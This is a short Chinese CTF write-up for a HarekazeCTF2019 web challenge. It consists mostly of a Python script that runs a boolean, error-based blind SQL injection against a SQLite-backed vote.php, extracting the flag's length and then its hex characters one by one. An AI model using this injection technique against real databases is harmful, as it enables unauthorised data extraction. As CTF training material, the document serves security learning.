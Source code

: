 update的结构不同会回显不一样的页面，由此进行盲注

具体分析看这里：[HarekazeCTF2019 web - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6628#toc-4)

出题人的脚本改一下flag格式就行：

```python
# coding: utf-8
import binascii
import requests
import time
URL = 'http://d9fe34cb-16a0-4ced-b1b0-c148f901a439.challenge.ctf.show/vote.php'


l = 0
i = 0
for j in range(16):
  r = requests.post(URL, data={
    'id': f'abs(case(length(hex((select(flag)from(flag))))&{1<<j})when(0)then(0)else(0x8000000000000000)end)'
  })
  if b'An error occurred' in r.content:
    l |= 1 << j
print('[+] length:', l)


table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'
table['C'] = 'trim(hex(typeof(.1)),12567)'
table['D'] = 'trim(hex(0xffffffffffffffff),123)'
table['E'] = 'trim(hex(0.1),1230)'
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})'


res = binascii.hexlify(b'ctfshow{').decode().upper()
for i in range(len(res), l):
  for x in '0123456789ABCDEF':
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + x)
    r = requests.post(URL, data={
      'id': f'abs(case(replace(length(replace(hex((select(flag)from(flag))),{t},trim(0,0))),{l},trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)'
    })
    if b'An error occurred' in r.content:
      res += x
      break
    time.sleep(0.5)
  print(f'[+] flag ({i}/{l}): {res}')
  i += 1
print('[+] flag:', binascii.unhexlify(res).decode())
```
